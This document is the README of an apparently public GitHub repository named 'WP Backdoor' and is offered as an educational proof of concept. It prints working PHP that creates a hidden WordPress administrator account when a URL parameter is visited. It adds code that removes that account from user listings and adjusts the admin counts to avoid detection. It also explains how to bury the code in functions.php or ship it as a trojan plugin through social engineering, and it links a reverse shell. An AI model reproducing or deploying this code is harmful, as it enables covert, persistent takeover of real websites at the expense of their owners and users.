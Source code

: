 ![logo](/logo.png)
![version](https://img.shields.io/badge/version-1.0-blue) ![version](https://img.shields.io/badge/tested-locally-green) ![version](https://img.shields.io/badge/language-PHP-purple)

## Huge Update!

![version](https://img.shields.io/badge/version-2.0-blue)

**I have decided to take this repo a step further and make a step by step guide on how to implement it in a real case scenario with a phishing campaign based on a recently delivered phishig campaign to WordPress admins. [Here](https://amtzespinosa.github.io/posts/wordpress-backdoor-plugin/) you can check the full article!**

## Disclaimer
**This is for educational purposes only.** I am not liable for any indirect, incidental, special, consequential or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from 

 1. your access to this resource and/or inability to access this resource
 2. any conduct or content of any third party referenced by this resource, including without limitation, any defamatory, offensive or illegal conduct or other users or third parties
 3. any content obtained from this resource.

## Files

 - [backdoor.php](/backdoor.php) - code to set the backdoor.
 - [hidden_admin.php](/hidden_admin.php) - code to hide users (the user created by backdoor.php).
 - [wp-backdoor.zip](/wp-backdoor.zip) - the code made WordPress plugin.
 - [wp-backdoor.php](/wp-backdoor/wp-backdoor.php) - code used for the plugin.
 - [reverse_shell.php](/reverse_shell.php) - Pentest Monkey PHP Reverse Shell. Old but gold.

## Proof of Concept
Many times I have asked myself how to maintain access to a compromised **WordPress** site for the sake of surveillance/data gathering/etc... Apart from reverse shells, of course, because I see some issues with the reverse shells stuff. I know they're all rectifiable but there are many things to have into consideration if in a rush:

 1. You have to throw the reverse shell to your IP - revealing info about you.
 2. Proxy then! - I don't trust free proxies... they're down, slow, instable...
 3. A reverse shell is just that: a shell - you can do a lot of stuff but it's not an easy GUI.
 4. Not precisely hidden - unless you hide the malicious code really well, it will be detected very fast.
 5. And after you get the shell you have to escalate privileges.

So I thought... what about **a dormant/hidden admin account** you can activate whenever you want and access (via wp-login) the core of the site inadvert?

Well, here's the first draft of this thought.

The starting point is: **you already have access.** How? That's up to you and beyond the scope of this code. But, in case you want to use it to gain access, you'll need a Trojan Horse and good social engineering skills.

To explain the **WP Backdoor** I will divide the code in three parts: 

 1. Creating the admin user.
 2. Hiding the admin user.
 3. Installing the backdoor.

## Creating the new_admin

WordPress allows us to do everything by code. That means we can actually create users with a few lines of code. But to go further, let's trigger that user creation by visiting a specific URL:

    add_action( 'wp_head', 'wp_backdoor' );
    
    function  wp_backdoor() {
	    if ( $_GET['backdoor'] == 'go' ) {
		    require( 'wp-includes/registration.php' );
		    if ( !username_exists( 'new_admin' ) ) {
			    $user_id = wp_create_user( 'new_admin', 'new_pass' );
			    $user = new  WP_User( $user_id );
			    $user->set_role( 'administrator' );
		    }
	    }
    }

By visiting the URL: *https://[insert website here]*/**?backdoor=go**, automatically a new user called **new_admin** will be created. This new user will have the role of administrator and its privileges and the password would be **new_pass.**

Now we have the user but it's in plain sight and would be easily noticed by others. So it's time to hide it!

## Hiding the new_admin

This code has two parts: hiding the **new_admin** and making everything look right.

Code for hiding a user:

    add_action('pre_user_query','dt_pre_user_query');
    
    function  dt_pre_user_query($user_search) {
	    global  $current_user;
	    $username = $current_user->user_login;

	    if ($username != 'new_admin') {
		    global  $wpdb;
		    $user_search->query_where = str_replace('WHERE 1=1',
			    "WHERE 1=1 AND {$wpdb->users}.user_login != 'new_admin'",$user_search->query_where);
        }
    }

But without the next piece of code there would be some hints that something is happening. In example: there's only one admin but the total count of admins is 2. Funky...

So let's correct those flaws...

    add_filter("views_users", "dt_list_table_views");
    
    function  dt_list_table_views($views){
	    $users = count_users();
	    $admins_num = $users['avail_roles']['administrator'] - 1;
	    $all_num = $users['total_users'] - 1;
	    $class_adm = ( strpos($views['administrator'], 'current') === false ) ? "" : "current";
	    $class_all = ( strpos($views['all'], 'current') === false ) ? "" : "current";
	    $views['administrator'] = '<a href="users.php?role=administrator" class="'  .  $class_adm  .  '">'  .  translate_user_role('Administrator') .  ' <span class="count">('  .  $admins_num  .  ')</span></a>';
	    $views['all'] = '<a href="users.php" class="'  .  $class_all  .  '">'  .  __('All') .  ' <span class="count">('  .  $all_num  .  ')</span></a>';
	    return  $views;
    }

And there we go! Now our backdoor would be unnoticed unless someone carries out a thorough scan of the site. But... How can we stuff this code into a WordPress site?

Well, here are some ways. Sure there are more. Let your imagination be the limit!

## Setting up the backdoor
Depending on your intentions this would be your first or your last step. If you are using this method for persistence then it would be your last step and you should have access already.

In case you want to gain access, you should start here.

### Persistence

If you already have access, just copy the three code blocks together into **functions.php.** Not on top, not at the bottom, right in the middle. I have tried to do it around line 150. With a quick look to the code it looks legit.

Once it's pasted and saved, backdoor is ready to be used. 

You can use a Reverse Shell to do this task 😉

### Gain access

We can hide this malicious code into a WordPress plugin. This method can be used for persistance as well but have some inconvenients. The main one is that, once the plugin is deactivated, so does the hiding code and your backdoor would be visible.

We can make our own plugin to disguise the code or download a legit plugin, stuff it inside and - for both cases with a bit of social engineering, make the admin install the plugin.

I am giving you a simple plugin containing just the malicious code. It is not disguised, just a sample. If you feel like, you can also learn how to make legit plugins with the WordPress documentation. 

## Final thoughts
I know this could be better. And it will. My future improvements would probably go around using a plugin to write into functions.php so once it is activated, code is stuffed in functions.php and the plugin is not needed anymore.

Be careful who you let in your site. Update everything, revise the core code and delete  unuseful stuff you don't need.

That's it. If you want to add more info, code or anything I'll be pleased. Happy hacking!

